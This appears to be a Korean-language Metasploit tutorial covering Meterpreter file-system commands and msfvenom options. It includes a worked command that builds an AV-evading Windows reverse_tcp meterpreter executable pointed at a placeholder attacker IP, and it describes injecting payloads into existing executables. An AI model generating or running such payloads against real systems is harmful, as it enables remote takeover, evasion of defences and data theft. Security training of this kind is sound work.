 ### 파일 시스템 탐색
```bash
# 디렉토리 변경
meterpreter> cd C:\

# 파일 목록
meterpreter> ls

# 파일 다운로드
meterpreter> download filename.txt
```

# msfvenom

msfvenom은 Metasploit 프레임워크의 **페이로드 및 악성코드 생성 도구**로, 익스플로잇 공격에 필요한 실행 파일, 스크립트, 셸코드 등을 다양한 플랫폼과 포맷으로 만들 수 있다.

## msfvenom 주요 기능과 옵션

- **페이로드 생성**: shell, meterpreter, reverse/bind tcp 등 수백 가지 페이로드를 생성 가능
- **다양한 포맷 지원**: exe, elf, python, c, bash, ruby 등으로 출력 가능
- **인코딩 및 크기 제한**: 안티바이러스 우회, 분석방해 목적의 인코더/노프슬레드 적용
- **파일 주입/템플릿 활용**: 기존 실행파일에 악성코드 주입 가능

### 주요 옵션

| 옵션    | 설명               |
|---------|-------------------|
| -p      | 페이로드 지정      |
| -f      | 출력 포맷 지정     |
| -o      | 저장 파일명 지정   |
| -e      | 인코더 지정        |
| -i      | 인코딩 횟수        |
| -a      | 아키텍처           |
| --platform | 운영체제        |
| -b      | 제외할 바이트      |
| -l      | 페이로드, 인코더 등 목록 |
| --help-formats | 지원 포맷 목록 |
| -h      | 도움말             |

### 사용 예시

```bash
# 윈도우 reverse_tcp 페이로드와 인코더 적용, exe 파일로 생성
msfvenom -p windows/meterpreter/reverse_tcp LHOST=공격자IP LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o payload.exe
```
- **-p** : 페이로드 종류 지정
- **-e** : 인코딩 방식(예시: x86/shikata_ga_nai)
- **-i** : 인코딩 횟수(숫자만큼 반복 인코딩)
- **-f** : 출력 포맷 지정(exe, python 등)
- **-o** : 결과파일 저장명
